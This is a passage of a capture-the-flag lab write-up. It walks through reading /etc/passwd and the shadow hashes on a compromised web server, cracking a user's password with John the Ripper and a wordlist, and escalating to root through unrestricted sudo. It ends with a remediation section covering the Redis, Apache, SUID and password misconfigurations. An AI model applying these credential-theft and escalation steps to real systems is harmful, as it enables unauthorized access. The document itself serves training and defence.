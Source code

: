 This works, I can see the vianka user's password hash. <br>

I can also cat out the /etc/passwd file to potentially crack the hash with JohnTheRipper: <br>
`www-data@ubuntu$ cat /etc/passwd`

I copied the contents of these files into two .txt files on my host machine and ran the following command to combine them: <br>
`tas@kali$ unshadow shdw.txt pswd.txt > vianka.txt`

Then I ran JohnTheRipper to crack the hashes: <br>
`tas@kali$ john vianka.txt --wordlist=/usr/share/wordlists/rockyou.txt`

![JohnTheRipper Results](https://i.imgur.com/gA94039.png)

The result was the plaintext password for the vianka user.

> Answer: b********1


---

### Escalate privileges and obtain root.txt

The first thing I do is switch users to the vianka user: <br>
`www-data@ubuntu$ su vianka`

Entering the password which I just cracked, this succeeds.

Next I check my sudo permissions with `sudo -l`, and it appears I can run all commands via sudo as vianka.

Then: <br>
`vianka@ubuntu$ sudo bash`

Entering the password: <br>
`root@ubuntu#` <br>

> `root@ubuntu# ls /root` <br>
> root.txt

`root@ubuntu# cat /root/root.txt`

> Answer: thm{xxd_***************}

---

## Analysis & Remediation


There were several different vulnerable misconfigurations that allowed me to gain total access to this webserver:

1. Insecure default Redis configuration which allowed unauthenticated DBMS server access.
2. Insecure default Apache2 configuration which leaked the webserver's root folder location.
3. xxd binary owned by root with SUID bit, a rather brazen misconfiguration given the capabilities of said binary.
4. Weak account password for user vianka, coupled with unrestricted sudo permissions.

Services like Redis which are vulnerable or insecure in their default configurations (weak, default, or nonexistant credentials)
should be properly configured before being exposed to the internet.
If the Redis server had not accepted my connection or commands without proper authentication, I would have needed to somehow find the
right credentials before being able to leak any info or preform the attack which resulted in RCE via a webshell.
